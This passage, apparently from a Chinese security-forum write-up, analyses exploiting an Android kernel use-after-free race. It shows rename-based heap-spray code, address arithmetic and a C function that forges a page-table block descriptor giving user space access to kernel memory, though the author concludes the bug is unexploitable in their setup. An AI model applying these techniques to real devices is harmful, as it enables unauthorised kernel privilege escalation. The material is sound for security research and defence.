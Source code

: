 这段代码的功能是在 kfree_rcu(old_name, u.head)，之后重新占位这个洞。

```
if (rename(origname,longname)<0) perror("rename1");
for (int j = 0; j < 1; j++)
{
    fillhole();
}
if (rename(longname,origname)<0) perror("rename2");

```

我们堆喷只调用了一次，此时不能保证每次都占到 old_name 的地址，但由于我们是多次执行，所以有一定概率占到 old_name，并赢得竞争。fillhole，我们生成了一个 172 字节的对象，原理我们上面已经讲过了。最后 8 个字节是用来覆盖 iov_addr 的，为 0xffffffc000872840。这个地址是用来写入 block 的。我手机里面的 swapper_pg_dir 的地址是 ffffffc000872000。参考[《KSMA -- Android 通用 Root 技术》](https://bbs.pediy.com/thread-248444.htm)计算方式：

L1_index=(0xffffffc200000000 &0x0000007fc0000000) >>30;

fake_d_block_addr=ffffffc000872000+L1_index*0x8;

得到的 fake_d_block_addr 为 0xffffffc000872840。

那么向这个地址写入一个什么样的 block 呢？

```
static unsigned long get_fack_block(unsigned long phys_addr)
{
    unsigned long fake_d_block = 0l;
    // d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    // bit[1:0]
    fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    // bit[11:2] lower block attributes
    fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
    fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    // bit[29:12] RES0
    // bit[47:30] output address
    fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    // bit[51:48] RES0
    // bit[63:52] upper block attributes, [63:55] ignored
    fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
    return fake_d_block;
}

```

这个 block，主要是标示了物理地址以 0x40000000 起始的 1G 范围，且 AP 改为 01，让用户态可以访问内核态。  
此时还有个限制该漏洞被利用的因素，fake_d_block_addr 为 0xffffffc000872840，这 8 个字节是要通过 strcpy 来覆盖旁边 iov_addr 的，但是 strcpy 有遇 0 截断问题，所以这个漏洞在当前的环境是无法利用的。在 [asia-18-WANG-KSMA-Breaking-Android-kernel-isolation-and-Rooting-with-ARM-MMU-features.](https://www.blackhat.com/docs/asia-18/asia-18-WANG-KSMA-Breaking-Android-kernel-isolation-and-Rooting-with-ARM-MMU-features.pdf) 之所以可以使用，是因为 swapper_pg_dir ~ swapper_pg_dir  + 0x1ff * 8 没有遇 0 截断。![](https://bbs.pediy.com/upload/attach/201902/620204_PYX8PDMC9QG9NUU.jpg)  
